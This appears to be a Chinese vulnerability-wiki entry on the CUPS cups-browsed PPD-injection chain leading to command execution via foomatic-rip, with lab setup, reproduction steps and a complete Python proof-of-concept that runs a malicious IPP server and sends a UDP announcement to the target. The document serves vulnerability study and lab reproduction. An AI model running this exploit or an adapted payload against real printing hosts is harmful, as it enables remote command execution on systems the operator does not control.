



## 2026-10-03 编号核验

CVE-2024-47177 已因与 CVE-2024-47076、CVE-2024-47175、CVE-2024-47176 完全相互依赖而被官方作为重复编号撤销。本页保留 CUPS 利用链分析及原始编号引用，不再把 47177 作为独立有效主编号；链中各组件、认证与打印触发条件需要分别核对，不能仅按这一撤销说明给每一步重新分配编号。


# OpenPrinting CUPS/cups-browsed/cups-filters 打印机发现→PPD注入→foomatic-rip命令执行链

## 条目说明

- 对象与具体问题：OpenPrinting CUPS/cups-browsed/cups-filters；打印机发现→PPD注入→foomatic-rip命令执行链
- 版本、配置及部署条件：正文混cups-browsed<=2.0.1与cups-filters<=2.0.1；测试CUPS2.4.7
- 认证与权限前提：网络可达UDP631/恶意IPP回连且至少打印任务触发
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 错分致远OA；CVE47177归哪个组件须与链中其他漏洞区分，当前描述把整链归cups-browsed
- 标题PDD应PPD
- 完整Python和打印触发条件有价值；TCP631开放还不等于有管理/打印权限
- 修复写目前暂无补丁无时间锚，历史状态不能视为当前；需逐组件官方公告核验

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

OpenPrinting CUPS（通用 Unix 打印系统）是为类 Unix 操作系统开发的开源打印系统。它允许计算机充当打印服务器，高效管理本地和网络打印机。Cups-Browsed 是 CUPS 系统的一部分，是一个专门用于浏览网络上其他 CUPS 服务器共享的远程打印机的守护进程。它可以自动发现和配置网络打印机，让用户更容易访问和使用网络上共享的打印资源，无需手动设置。

在 Cups-Browsed 2.0.1 及之前的版本中，存在一个由 PPD（PostScript 打印机描述）文件中的 FoomaticRIPCommandLine 参数处理不当引起的问题。攻击者可以通过创建一个恶意的 IPP（互联网打印协议）服务器来利用这个漏洞，向易受攻击的 Cups-Browsed 实例发送精心制作的打印机信息，然后在运行易受攻击的 Cups-Browsed 的系统上执行任意命令。

参考链接：

- https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/
- https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8

### 漏洞影响

```
cups-filters ≤ 2.0.1
```

### 环境搭建

Vulhub 执行如下命令启动一个 2.4.7 版本 CUPS 服务器和 2.0.1 版本 Cups-Browsed 服务器：

```
docker-compose up -d
```

环境启动后，可以通过 `http://<your-ip>:631` 访问 CUPS 的 web 界面。




### 漏洞复现

首先，下载 [evil-ipp-server](https://github.com/vulhub/evil-ipp-server) 项目并运行 [poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py):

```
python poc.py [evil-ipp-server-ip] [your-ip]
```

例如：

```
# [evil-ipp-server-ip] 172.17.0.1
# [your-ip] 192.168.240.2 

python poc.py 172.17.0.1 192.168.240.2 
```

这个脚本会在 `[evil-ipp-server-ip]` 上启动一个恶意的 IPP 服务器，并向目标机器 `[your-ip]` 上的 Cups-Browsed 服务发送一个 UDP 数据包。

一旦 Cups-Browsed 接收到请求，它将尝试连接到恶意的 IPP 服务器并收到恶意的 `printer-privacy-policy-uri` 属性，该属性中包含恶意 payload，其结构如下：

```python
(
    SectionEnum.printer,
    b'printer-privacy-policy-uri',
    TagEnum.uri
): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
    b'echo 1 > /tmp/I_AM_VULNERABLE' +
    b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
```

然后，Cups-Browsed 会在 `/tmp/` 目录下创建一个临时 PPD 文件，我们的 payload 会被注入到这个文件中。下图是相关的 Cups-Browsed 日志：




此时，命令还未执行，因为我们需要至少一个打印任务来触发命令的执行。

打印任务可能来自于正常用户，也可以来自攻击者。如果 TCP 631 端口开发，我们可以使用浏览器访问，并找到刚才增加的恶意 IPP 打印机，并创建一个“打印测试页面”的打印任务。




任务执行后，进入容器即可发现，`echo 1 > /tmp/I_AM_VULNERABLE` 命令已经成功执行：


### 漏洞 POC

poc.py

```python
#!/usr/bin/env python3
import socket
import threading
import time
import sys


from ippserver.server import IPPServer
import ippserver.behaviour as behaviour
from ippserver.server import IPPRequestHandler
from ippserver.constants import (
    OperationEnum, StatusCodeEnum, SectionEnum, TagEnum
)
from ippserver.parsers import Integer, Enum, Boolean
from ippserver.request import IppRequest


class MaliciousPrinter(behaviour.StatelessPrinter):
    def __init__(self, command):
        self.command = command
        super(MaliciousPrinter, self).__init__()

    def printer_list_attributes(self):
        attr = {
            # rfc2911 section 4.4
            (
                SectionEnum.printer,
                b'printer-uri-supported',
                TagEnum.uri
            ): [self.printer_uri],
            (
                SectionEnum.printer,
                b'uri-authentication-supported',
                TagEnum.keyword
            ): [b'none'],
            (
                SectionEnum.printer,
                b'uri-security-supported',
                TagEnum.keyword
            ): [b'none'],
            (
                SectionEnum.printer,
                b'printer-name',
                TagEnum.name_without_language
            ): [b'Main Printer'],
            (
                SectionEnum.printer,
                b'printer-info',
                TagEnum.text_without_language
            ): [b'Main Printer Info'],
            (
                SectionEnum.printer,
                b'printer-make-and-model',
                TagEnum.text_without_language
            ): [b'HP 0.00'],
            (
                SectionEnum.printer,
                b'printer-state',
                TagEnum.enum
            ): [Enum(3).bytes()],  # XXX 3 is idle
            (
                SectionEnum.printer,
                b'printer-state-reasons',
                TagEnum.keyword
            ): [b'none'],
            (
                SectionEnum.printer,
                b'ipp-versions-supported',
                TagEnum.keyword
            ): [b'1.1'],
            (
                SectionEnum.printer,
                b'operations-supported',
                TagEnum.enum
            ): [
                Enum(x).bytes()
                for x in (
                    OperationEnum.print_job,  # (required by cups)
                    OperationEnum.validate_job,  # (required by cups)
                    OperationEnum.cancel_job,  # (required by cups)
                    OperationEnum.get_job_attributes,  # (required by cups)
                    OperationEnum.get_printer_attributes,
                )],
            (
                SectionEnum.printer,
                b'multiple-document-jobs-supported',
                TagEnum.boolean
            ): [Boolean(False).bytes()],
            (
                SectionEnum.printer,
                b'charset-configured',
                TagEnum.charset
            ): [b'utf-8'],
            (
                SectionEnum.printer,
                b'charset-supported',
                TagEnum.charset
            ): [b'utf-8'],
            (
                SectionEnum.printer,
                b'natural-language-configured',
                TagEnum.natural_language
            ): [b'en'],
            (
                SectionEnum.printer,
                b'generated-natural-language-supported',
                TagEnum.natural_language
            ): [b'en'],
            (
                SectionEnum.printer,
                b'document-format-default',
                TagEnum.mime_media_type
            ): [b'application/pdf'],
            (
                SectionEnum.printer,
                b'document-format-supported',
                TagEnum.mime_media_type
            ): [b'application/pdf'],
            (
                SectionEnum.printer,
                b'printer-is-accepting-jobs',
                TagEnum.boolean
            ): [Boolean(True).bytes()],
            (
                SectionEnum.printer,
                b'queued-job-count',
                TagEnum.integer
            ): [Integer(666).bytes()],
            (
                SectionEnum.printer,
                b'pdl-override-supported',
                TagEnum.keyword
            ): [b'not-attempted'],
            (
                SectionEnum.printer,
                b'printer-up-time',
                TagEnum.integer
            ): [Integer(self.printer_uptime()).bytes()],
            (
                SectionEnum.printer,
                b'compression-supported',
                TagEnum.keyword
            ): [b'none'],
            (
                SectionEnum.printer,
                b'printer-privacy-policy-uri',
                TagEnum.uri
            ): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
                self.command.encode() +
                b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],

        }
        attr.update(super().minimal_attributes())
        return attr

    def handle_print_job(self, req, _psfile):
        print("target connected, sending payload ...")
        attributes = self.printer_list_attributes()
        return IppRequest(
            self.version,
            StatusCodeEnum.ok,
            req.request_id,
            attributes)


def send_browsed_packet(ip, port, ipp_server_host, ipp_server_port):
    print("sending udp packet to %s:%d ..." % (ip, port))

    printer_type = 0x00
    printer_state = 0x03
    printer_uri = 'http://%s:%d/printers/NAME' % (
        ipp_server_host, ipp_server_port)
    printer_location = 'Office HQ'
    printer_info = 'Printer'

    message = bytes('%x %x %s "%s" "%s"' %
                    (printer_type,
                     printer_state,
                     printer_uri,
                     printer_location,
                     printer_info), 'UTF-8')

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(message, (ip, port))


if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("%s <LOCAL_HOST> <TARGET_HOST>" % sys.argv[0])
        quit()

    SERVER_HOST = sys.argv[1]
    SERVER_PORT = 12345

    command = "echo 1 > /tmp/I_AM_VULNERABLE"

    server = IPPServer((SERVER_HOST, SERVER_PORT),
                       IPPRequestHandler, MaliciousPrinter(command))
    print('malicious ipp server listening on ', server.server_address)
    server_thread = threading.Thread(target=server.serve_forever)
    server_thread.daemon = True
    server_thread.start()

    TARGET_HOST = sys.argv[2]
    TARGET_PORT = 631
    send_browsed_packet(TARGET_HOST, TARGET_PORT, SERVER_HOST, SERVER_PORT)

    try:
        while server_thread.is_alive():  
            server_thread.join(timeout=1.0)  
    except KeyboardInterrupt:  
        pass  
    finally:  
        print("Server has shut down.")  
```

### 漏洞修复

目前上述漏洞暂无相应补丁，受影响用户可应用相关缓解措施并在安全更新发布后升级到最新版本。下载链接： https://github.com/OpenPrinting/cups-browsed/releases


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
